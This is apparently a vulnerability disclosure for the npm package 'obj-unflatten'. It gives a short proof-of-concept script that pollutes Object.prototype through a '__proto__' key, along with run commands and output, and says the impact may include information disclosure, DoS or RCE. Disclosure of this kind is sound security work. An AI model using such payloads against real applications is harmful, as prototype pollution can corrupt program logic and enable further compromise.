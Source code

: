 ## :writing_hand: Description

`obj-unflatten` convert flatten objects in nested ones. This package is vulnerable to `Prototype Pollution`.

## :male_detective: Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const unflatten = require('obj-unflatten')
console.log('Before: ' + {}.polluted)
unflatten({'__proto__.polluted': 'Prototype Polluted!'})
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i obj-unflatten # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: Prototype Polluted!
```

## :boom: Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
